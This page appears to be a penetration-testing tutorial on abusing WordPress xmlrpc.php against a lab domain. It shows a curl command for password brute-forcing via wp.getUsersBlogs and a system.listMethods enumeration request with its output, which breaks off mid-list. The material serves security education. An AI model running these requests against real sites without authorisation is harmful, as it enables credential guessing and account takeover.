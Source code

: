 <br>
<br>
<br>
<br>

# Attacking WordPress 'xmlrpc.php'

It is important to note that xmlrpc.php being enabled on a WordPress instance is not a vulnerability. Depending on the methods allowed, xmlrpc.php can facilitate some enumeration and exploitation activities, though.

Suppose we are assessing the security of a WordPress instance residing in ```http://blog.inlanefreight.com```. Through enumeration activities, we identified a valid username, admin, and that ```xmlrpc.php is enabled```. Identifying if xmlrpc.php is enabled is as easy as requesting xmlrpc.php on the domain we are assessing.

We can mount a password brute-forcing attack through xmlrpc.php, as follows:

```bash
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```

You may ask how we identified the correct method to call (**system.listMethods**). We did that by going **through the well-documented Wordpress code** and interacting with xmlrpc.php, as follows:

```bash
curl -s -X POST -d "<methodCall><methodName>system.listMethods</methodName></methodCall>" http://blog.inlanefreight.com/xmlrpc.php




<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><string>system.multicall</string></value>
  <value><string>system.listMethods</string></value>
  <value><string>system.getCapabilities</string></value>
  <value><string>demo.addTwoNumbers</string></value>
  <value><string>demo.sayHello</string></value>
  <value><string>pingback.extensions.getPingbacks</string></value>
  <value><string>pingback.ping</string></value>
  <value><string>mt.publishPost</string></value>
  <value><string>mt.getTrackbackPings</string></value>
  <value><string>mt.supportedTextFilters</string></value>
  <value><string>mt.supportedMethods</string></value>
  <value><string>mt.setPostCategories</string></value>
  <value><string>mt.getPostCategories</string></value>
  <value><string>mt.getRecentPostTitles</string></value>
  <value><string>mt.getCategoryList</string></value>
  <value><string>metaWeblog.getUsersBlogs</string></value>
  <value><string>metaWeblog.deletePost</string></value>
  <value><string>metaWeblog.newMediaObject</string></value>
  <value><string>metaWeblog.getCategories</string></value>
  <value><string>metaWeblog.getRecentPosts</string></value>
  <value><string>metaWeblog.getPost</string></value>
  <value><string>metaWeblog.editPost</string></value>
  <value><string>metaWeblog.newPost</string></value>
  <value><string>blogger.deletePost</string></value>
  <value><string>blogger.editPost</string></value>
  <value><string>blogger.newPost</string></value>
```